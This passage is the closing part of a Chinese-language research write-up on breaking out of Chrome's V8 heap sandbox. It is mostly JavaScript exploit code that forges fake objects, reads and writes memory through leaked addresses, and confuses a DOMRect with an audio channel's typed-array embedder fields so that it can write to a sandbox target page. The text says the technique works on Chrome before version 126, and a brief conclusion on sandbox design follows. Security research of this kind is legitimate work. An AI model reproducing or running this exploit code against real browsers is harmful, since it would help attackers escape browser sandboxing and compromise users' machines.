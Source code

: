 ```js
  set_elements(0x4141n, 0x2n);
  const f_arr_addr = leak_addr(f_arr);
  const f_elem_addr = f_arr_addr - 0x18n;
  const f_obj_addr = f_elem_addr + 0x8n;
  d_arr[5] = utils.itof(f_obj_addr);
  return o_arr[0];
}

function set_elements(addr, len){
  f_arr[1] = utils.itof(utils.pair(len, addr));
}
```

最后将`DOMRect` 与 `DOMTypedArray` 进行混淆：

```js

function get_embedder_fields(addr, offset){
	let ret = [];
	let res = limit_read(addr+offset);
	ret[0] = res & 0xFFFFFFFFn
	ret[1] = (res & 0xFFFFFFFF00000000n) >> 0x20n;
	return ret;
}

function confusion_embedder(addr, offset, ef){
	limit_write(addr+offset, ef[0]);
	limit_write(addr+offset+0x8n, ef[1]);
}

let fake_obj = get_fake_obj();
const DOMRECT_EMBEDDER_OFFSET = 0x10n;
const CHANNEL_EMBEDDER_OFFSET = 0x3Cn

const domRect_addr = leak_addr(domRect);
const channel_addr = leak_addr(channel);
const channel_ef = get_embedder_fields(
	channel_addr, CHANNEL_EMBEDDER_OFFSET);
const target_page = BigInt(Sandbox.targetPage);

confusion_embedder(
	domRect_addr, 
	DOMRECT_EMBEDDER_OFFSET, 
	channel_ef);
domRect.x = utils.itof(target_page);
const view = new ArrayBuffer(24);
const src = new Float32Array(view);
src[0] = 9.999;
node.copyToChannel(src, 0, 0);
```

此方法至少在chrome 126版本之前都可用。

## 四、Conclusion

尽管 V8 引擎在其设计中引入了沙箱机制以增强安全性，但攻击者仍然能够通过复杂的对象混淆和内存操控来打破沙箱的边界。因此，在未来的安全研究中，如何更好地隔离这些敏感数据对象以及如何进一步优化沙箱设计将成为研究重点。